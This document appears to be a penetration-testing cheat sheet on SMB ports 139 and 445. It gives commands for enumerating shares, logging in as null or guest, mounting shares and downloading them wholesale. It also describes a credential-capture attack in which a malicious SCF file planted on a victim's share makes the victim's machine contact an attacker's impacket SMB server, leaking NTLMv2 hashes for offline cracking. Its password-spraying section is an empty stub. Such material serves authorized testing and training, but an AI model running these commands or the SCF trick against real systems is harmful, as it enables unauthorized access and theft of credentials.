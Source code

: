 # SMB - 139/445

## SMB Information

### Port 139

Standing for Network Basic Input/Output System, NetBIOS is a networking industry standard developed by IBM, Microsoft, and Sytek. It is currently mostly used by Microsoft Windows operating systems to provide certain services to the other network hosts. NetBIOS provides services associated with the OSI model’s session layer, allowing applications on different computers to communicate over the local network. It also allows the proper transmission of data over the network. A NetBIOS name is up to 16 characters long and usually, separate from the computer name. Two applications start a NetBIOS session when one \(the client\) sends a command to “call” another client \(the server\) over **TCP Port 139**. 

Reference:

{% embed url="https://www.bitwarsoft.com/what-is-netbios.html" %}

### Port 445

While Port 139 is known technically as ‘NBT over IP’, Port 445 is ‘SMB over IP’. **SMB** stands for ‘**Server Message Blocks**’. Server Message Block in modern language is also known as **Common Internet File System \(cifs\)**. The system operates as an application-layer network protocol primarily used for offering shared access to files, printers, serial ports, and other sorts of communications between nodes on a network.

For instance, on Windows, SMB can run directly over TCP/IP without the need for NetBIOS over TCP/IP. This will use the port 445. On other systems, you’ll find services and applications using port 139. This means that SMB is running with NetBIOS over TCP/IP**.** 

### IPC$ Share

The IPC$ shares and interacts with other services via named pipes. The IPC$ share can contain the following information:

* Operating System 
* Parent Domain
* Local Users and Groups
* Available SMB shares
* Effective System Security Policies



## SMB List Shares <a id="smb-list-shares"></a>

### smbmap <a id="smbmap"></a>

List SMB shares permissions:

`smbmap -H 10.10.10.10`

### smbclient <a id="smbclient"></a>

List SMB shares with smbclient:

`smbclient -L 10.10.10.10`

### crackmapexec <a id="crackmapexec"></a>

List SMB shares with crackmapexec:

`crackmapexec smb 10.10.10.10 --shares`

### enum4linux <a id="enum4linux"></a>

List SMB shares with enum4linux:

`enum4linux 10.10.10.10`

## SMB Authentication <a id="smb-authentication"></a>

### smbmap <a id="smbmap-2"></a>

Authenticate to a domain controller SMB share with valid credentials:

`smbmap -d domain.name -u username -p password -H 10.10.10.10`

### smbclient <a id="smbclient-2"></a>

Authenticate as null:

`smbclient -U '' -L 10.10.10.10`

Authenticate as the guest user:

`smbclient -U 'guest' -L 10.10.10.10`

Authenticate as valid user \(type password on prompt\):

`smbclient -U 'username' -L 10.10.10.10`

### crackmapexec <a id="crackmapexec-2"></a>

Authenticate as null:

`crackmapexec smb 10.10.10.10 --shares -u '' -p ''`

Authenticate as a valid user with crackmapexec:

`crackmapexec smb 10.10.10.10 --shares -u username -p password`

## SMB Capture NTLMv2 with SCF <a id="smb-connect-to-share"></a>

**SCF** \(Shell Command File\) are simple files that can be used to perform a connection to the attacker machine by using the **SMB** protocol. The interesting purpose of that kind of file is that they can perform a small and limited set of operations, but can be executed when the user will browse the file, without the explicit necessity to execute it.

The attacker can take profit from this vulnerability to make a request to his own machine and then get the NTLMv2 hash of the victim.

Create a shared folder and let it open:

```text
impacket-smbserver share $(pwd) -smb2support
```

1. Create the malicious SCF file

   ```text
   [Shell]
   Command=2
   IconFile=\\10.10.10.11\share\pentestlab.ico
   [Taskbar]
   Command=ToggleDesktop
   ```

2. Copy the malicious file in the desired victim shared resource

Check the shared folder that you have created previously and if there is an interaction between the victim and the file, you will receive the NTLMv2 hash of the victim. You can then try to crack the hash with **john or hashcat.**

## SMB Connect to Share <a id="smb-connect-to-share"></a>

### smbmap <a id="smbmap-3"></a>

Recursively list the the share:

`smbmap -R ShareName -H 10.10.10.10`

### smbclient <a id="smbclient-3"></a>

We can connect to share with following example:

`smbclient -L //10.10.10.10/ShareName`

## SMB Mount Share <a id="smb-mount-share"></a>

Create a directory to mount the share:

`sudo mkdir -p /mnt/smb`

Mount the remote share to your machines/host without credentials:

`sudo mount -t cifs //10.10.10.10/ShareName/ /mnt/smb`

Mount with valid credentials method:

`sudo mount -t cifs -o 'user=username,password=pass' //10.10.10.10/sharename$ /mnt/share`

## SMB Password Spray <a id="smb-password-spray"></a>

sudo crackmapexec

## SMB Usage Cheatsheet <a id="smb-usage-cheatsheet"></a>

Download all files recursively without prompts:

```text
smb: \> recurse ON
smb: \> prompt OFF
smb: \> mget *
```

